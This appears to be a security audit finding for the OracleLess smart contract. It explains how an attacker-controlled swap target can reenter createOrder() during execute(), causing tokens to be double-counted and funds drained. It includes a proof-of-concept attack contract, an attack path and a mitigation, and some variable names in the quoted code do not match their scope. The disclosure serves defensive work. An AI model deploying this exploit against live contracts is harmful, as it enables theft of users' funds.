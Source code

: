 Decent Smoke Owl

High

# Reentrancy can be exploited in OracleLess contract

### Summary

`OracleLess` contract inherits `ReentrancyGuard` but none of its function use the nonReentrant modifier. This itself does not directly lead to problems, but in the current implementation, attacker can use the reentrancy to drain funds locked in the contract.
### Root Cause

Possible reentancy + the design to allow arbitrary address and calldata when swapping tokens in `fillOrder()`.

The external call can be to any address with any calldata and this is possible because there are two important checks presented - tokenIn spent is not more than the amount provided by user and the amount out is not less than the expected amount based on current market price. This allows the protocol to call any address when these two requirements are fulfilled.

The problem comes from the possibility to reenter the contract when doing the external call. Doing such external call gives opportunity for the attacker to gain control of execution. 

Adding comments directly to the implementation to describe the issue.
```solidity
function execute(
        address target,
        bytes memory txData,
        uint256 amountIn,
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint16 bips
    ) internal returns (uint256 swapAmountOut, uint256 tokenInRefund) {
        //update accounting
        uint256 initialTokenIn = tokenIn.balanceOf(address(this));
        uint256 initialTokenOut = tokenOut.balanceOf(address(this));


        // Since target can be any address, it can be also a user controlled one:
        tokenIn.safeApprove(target, amountIn);


        // User's contract can invoke createOrder() with tokenIn for that order to be equal to current tokenOut
        (bool success, bytes memory result) = target.call(txData);

		if (!success) {
            revert TransactionFailed(reason);
        }
		// no tokenIn is spent
        uint256 finalTokenIn = order.tokenIn.balanceOf(address(this));
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
	    // tokenOut balance would be changed because of the newly createdOrder leading to double accounting of funds
        uint256 finalTokenOut = order.tokenOut.balanceOf(address(this));

        require(
            finalTokenOut - initialTokenOut > order.minAmountOut,
            "Too Little Received"
        );

		// this amountOut is equal to the amountIn of the reentrancy created  order
        amountOut = finalTokenOut - initialTokenOut;
        tokenInRefund = order.amountIn - (initialTokenIn - finalTokenIn);
    }
```

`execute()`: https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L227C4-L257C6
### Internal pre-conditions

N/A
### External pre-conditions

N/A
### Attack Path

As described in the root cause, the attacker can exploit the `execute()` function by providing a malicious `target` address that reenters the contract via the `createOrder()` functionality:
* The attacker specifies a `target` address and arbitrary `txData` to call the `target`.
* During the execution of `target.call(txData)`, the malicious contract reenters the protocol's functionality, specifically the `createOrder()` function.
* This reentrant call creates a new order, increasing the `tokenOut` balance of the contract.
* After the reentrant `createOrder()` call, the `tokenOut` balance of the contract includes tokens from the new order.
- The function calculates `amountOut` based on the `tokenOut` balance difference:
- Since `finalTokenOut` includes tokens added by the reentrant `createOrder()` call, the protocol double-counts tokens.
### Impact

Loss of funds
### PoC

An example of `target` contract: 

```solidity

contract MaliciousTarget {
    address bracketContract;

    constructor(address _bracketContract) {
        bracketContract = _bracketContract;
    }

    function executeReentrantAttack(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external {
        // reenter the Bracket contract to create an order
        IBracket(bracketContract).createOrder(
            tokenIn,
            tokenOut,
            amountIn,
            minAmountOut,
            recipient,
            feeBips,
            permit,
            permitPayload
        );
    }
}
```
### Mitigation

Add `nonReentrant` modifiers to the functions.
